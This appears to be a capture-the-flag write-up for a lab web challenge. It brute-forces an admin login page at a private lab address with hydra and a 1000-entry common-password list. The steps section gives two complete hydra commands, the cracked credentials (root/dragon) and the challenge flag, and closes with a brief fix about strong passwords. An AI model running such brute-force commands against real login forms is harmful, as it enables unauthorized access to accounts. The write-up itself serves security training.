 # BRUTEFORCEEEEEEEEEEEEEEE

## Flag

d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

## Description

In the "Numeric SQL Injection" episode, we noticed an admin table with "Member_BruteForce" as schema name.
Alright, time to release the hydra.
https://en.wikipedia.org/wiki/Lernaean_Hydra

## URL

http://192.168.56.101/admin/

## Steps To Reproduce

Two "basic" payload with common admin usernames :
hydra -t 64 -l admin -P 1000-most-common-passwords.txt 192.168.56.101 http-post-form '/admin/:username=^USER^&password=^PASS^&Login=Login:Wrong'
hydra -t 64 -l root -P 1000-most-common-passwords.txt 192.168.56.101 http-post-form '/admin/:username=^USER^&password=^PASS^&Login=Login:Wrong'

With the second payload :
[80][http-post-form] host: 192.168.56.101   login: root   password: dragon
hydra, dragon, haha... ==>[]
So we login with root/dragon as credentials.
As the great Julien lepers would say, "Oui oui oui !"

## Why is it dangerous ?

"I can rly be admin for free ? O sweet"

## Possible fixes

- Don't be a chicken, choose a secure password. (Or do youtube videos about your "disruptive" startup bankerupt, it's up to you)

## Resources

- 1000-most-common-passwords.txt (Ressources folder)

## Sources

https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/